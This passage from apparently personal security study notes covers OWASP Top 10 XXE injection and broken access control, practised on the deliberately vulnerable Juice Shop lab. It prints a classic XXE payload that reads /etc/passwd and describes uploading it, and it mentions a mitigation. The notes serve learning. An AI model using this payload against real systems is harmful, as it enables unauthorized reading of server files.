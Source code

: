            <Item>Pokemon Cards</Items>    # children element
    </gift>

with this thought process we could use forward slashes and extract a file from inside the entity

**Payloads**
Link: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection


- Classic XXE
    <?xml version="1.0" encoding="ISO-8859-1"?>
      <!DOCTYPE foo [  
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 *using SYSTEM as an entity we can have it result in parser is external and to store content into it. When foo is called it calls the* `*/etc/passwd*`
 
 
 
**Attacking XXE**
save the payload locally as `test.xml`

    <?xml version="1.0" encoding="ISO-8859-1"?>
      <!DOCTYPE foo [  
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>


- Create a new user on Juiceshop

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578068540749_image.png)

- login to account - navigate to `/#/complain` to which we will take adavange of the “Browse” upload feature and upload the `test.xml` + capture request

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578115137001_image.png)

*should the xxe had been successful in our repsonse window we would see a print out of the* `*/etc/passwd*` to which in this case we do not.

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578116064147_image.png)


**Mitigating XXE**

- Disable xml entities (DTEs)



## 5. Broken Access Control
- If there was an `/admin` panel when normal user should not have access too.
- changeing `?=5` to `?=6` and return another accounts information -  Insecure Direct Object Reference (IDOR)

OWASP Link: https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control


**Attacking** **Broken Access - Juiceshop**
